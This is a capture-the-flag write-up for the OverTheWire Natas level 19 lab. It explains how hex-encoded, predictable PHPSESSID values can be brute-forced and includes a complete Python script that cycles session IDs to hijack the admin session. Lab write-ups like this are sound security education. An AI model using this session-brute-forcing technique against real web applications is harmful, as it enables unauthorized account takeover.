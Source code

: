 # This is a write-up for Natas - level 19

This challenge is quite similar to the previous one, so I won't repeat myself too much. Check that out in the parent folder.

## Solution
Immediately I notice the missing "view sourcecode" button. However, since the problem is similar to the previous one I go and have a look there.
Recalling my solution, I figure that PHPSESSID has to be a key part of the solution this time again.

I look at the PHPSESSID with inspect and see that it is a long string of numbers and letters.
It looks like hex, so I try to decrypt it on the site:

https://www.rapidtables.com/convert/number/hex-to-ascii.html

It does turn out to be hex! More specifically, the decrypted string is a number, a dash, and the username I entered.

This means I can probably brute-force the solution again! I just have to use "admin" as the username and try a bunch of different numbers.

Initially, I ran the script with the cookie format PHPSESSID: \<number\>-admin.

The sharp reader will notice that I am not using the correct format. I first need to encrypt this into hex!
This is quite easy to do in python with 'ord', which takes a character and returns its ascii code, and 'hex' which converts a number from decimal to hexadecimal.

I put together a quick function that encrypts an entire string using ord and hex. 

My guess was that the range of numbers would still be 640. If I was wrong, I could always brute force more numbers.

Here is the script:

```python 
import requests
from requests.auth import HTTPBasicAuth

basicAuth=HTTPBasicAuth('natas19', <secret-password>)
headers = {'Content-Type': 'application/x-www-form-urlencoded'}

u="http://natas19.natas.labs.overthewire.org/index.php"

def hexencrypt(input_string):
    encrypted = ""
    for letter in input_string:
        # ord converts letter to its ascii code.
        # hex converts the ascii code to hex
        # the hex representation of each character begins with '0x' which we don't care about for this challenge
        # [2:] weeds out the first characters
        encrypted+=str(hex(ord(letter)))[2:]
    return encrypted

for i in range(1,641):
    id_in_hex=hexencrypt(str(i) + "-admin")
    payload = {"PHPSESSID": id_in_hex}
    # This line stores the response from the server
    response = requests.get(u, cookies=payload, headers=headers, auth=basicAuth, verify=False)
    # I print the cookie in its hex-form just out of curiosity
    print(i, id_in_hex)
    if "You are an admin" in response.text:
        print(response.text)
        print("the admins session id was:", i)
        break
```
